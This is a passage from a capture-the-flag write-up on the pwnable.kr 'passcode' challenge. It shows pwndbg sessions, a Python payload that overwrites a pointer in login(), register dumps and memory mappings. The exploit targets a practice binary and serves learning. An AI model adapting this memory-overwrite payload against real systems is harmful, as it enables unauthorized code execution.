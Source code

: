The way the binary handles the malicious input can be examined more in detail within GDB. After disassembling the login() function, it can be seen that the printf() call that occurs after scanf() is at login+60 (or 0x080485a0)\:

{% highlight bash %}
0x080485a0 <+60\>\:    call   0x8048420 <printf@plt\>
{% endhighlight %}

After setting a breakpoint at this function and passing in the exploit, the breakpoint gets hit\:

{% highlight bash %}
pwndbg> b *login+60                    
Breakpoint 1 at 0x80485a0                
pwndbg> r < <(python -c "print 'A'*96+'\\x00\\xa0\\x04\\x08'+'134514135'")  
Starting program\: /home/0xd4y/business/other/pwnable.kr/easy/passcode/passcode < <(python -c "print 'A'*96+'\\x00\\xa0\\x04\\x08'+'134514135'")  
Toddler's Secure Login System 1.0 beta.                                                                    
enter you name \: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!  
                                                                                                         
Breakpoint 1, 0x080485a0 in login ()                                                                      
LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA  
───────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────────────────────────  
EAX  0x8048786 ◂-- outsb  dx, byte ptr gs\:[esi] /* 'enter passcode2 \: ' */  
EBX  0x0                                            
ECX  0x0                                                                                                  
EDX  0xffffffff                                      
EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂-- 0x1e4d6c  
ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂-- 0x1e4d6c                                                    EBP  0xffffd038 --▸ 0xffffd058 ◂-- 0x0      ESP  0xffffd010 --▸ 0x8048786 ◂-- outsb  dx, byte ptr gs\:[esi] /* 'enter passcode2 \: ' */EIP  0x80485a0 (login+60) --▸ 0xfffe7be8 ◂-- 0x0                                                            
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────  
► 0x80485a0 <login+60>     call   printf@plt <printf@plt>
{% endhighlight %}

It was established that this exploit works. Therefore, somewhere within memory the address 0x80485d7 is loaded up. To find its exact location, the info proc mappings and find command within GDB can be utilized\:

{% highlight bash %}
pwndbg> info proc mappings  
process 1961  
Mapped address spaces\:       Start Addr   End Addr       Size     Offset objfile  
        0x8048000  0x8049000     0x1000        0x0 /home/0xd4y/business/other/pwnable.kr/easy/passcode/passcode  
        0x8049000  0x804a000     0x1000        0x0 /home/0xd4y/business/other/pwnable.kr/easy/passcode/passcode  
        0x804a000  0x804b000     0x1000     0x1000 /home/0xd4y/business/other/pwnable.kr/easy/passcode/passcode  
        0x804b000  0x806d000    0x22000        0x0 [heap]  
       0xf7dca000 0xf7de7000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7de7000 0xf7f3c000   0x155000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7f3c000 0xf7fac000    0x70000   0x172000 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7fac000 0xf7fad000     0x1000   0x1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7fad000 0xf7faf000     0x2000   0x1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7faf000 0xf7fb1000     0x2000   0x1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so       0xf7fb1000 0xf7fb3000     0x2000        0x0  
       0xf7fca000 0xf7fcc000     0x2000        0x0  
       0xf7fcc000 0xf7fd0000     0x4000        0x0 [vvar]  
       0xf7fd0000 0xf7fd2000     0x2000        0x0 [vdso]  